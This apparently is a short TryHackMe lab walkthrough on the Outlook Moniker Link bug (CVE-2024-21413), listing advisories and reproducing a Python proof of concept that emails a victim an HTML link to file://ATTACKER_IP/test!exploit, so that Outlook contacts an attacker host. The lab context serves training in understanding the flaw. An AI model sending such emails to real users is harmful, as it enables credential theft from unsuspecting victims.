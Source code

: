 ### 23-Feb-24-Fri

[TryHackMe | Moniker Link (CVE-2024-21413)](https://tryhackme.com/room/monikerlink)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/549ec929-5b2e-49d0-bf0f-f5a88119c881)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/b5b6774b-41fb-4975-a59f-e32a4514e522)

https://www.cve.org/CVERecord?id=CVE-2024-21413

https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/

https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413

https://learn.microsoft.com/en-us/windows/win32/com/url-monikers

https://github.com/CMNatic/CVE-2024-21413 *POC*

```
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_IP/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSVERIP', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\nEmail delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/b6a7df58-327f-4ed3-a156-a3c066c1eeff)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/957bf358-045c-4eb0-b6bb-6452eee8bcea)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f4cff1a4-eda5-4ef4-9860-6ba0112cbe0b)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/14fdc5d5-9209-4185-8628-822f59be3346)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/d713464e-c561-4900-9588-3194a4930808)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/2e5d5296-fdfb-4887-9a5a-e5574f08a6d2)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/3ce1fcb7-892e-4a62-a1c0-e0f242a4d5cf)
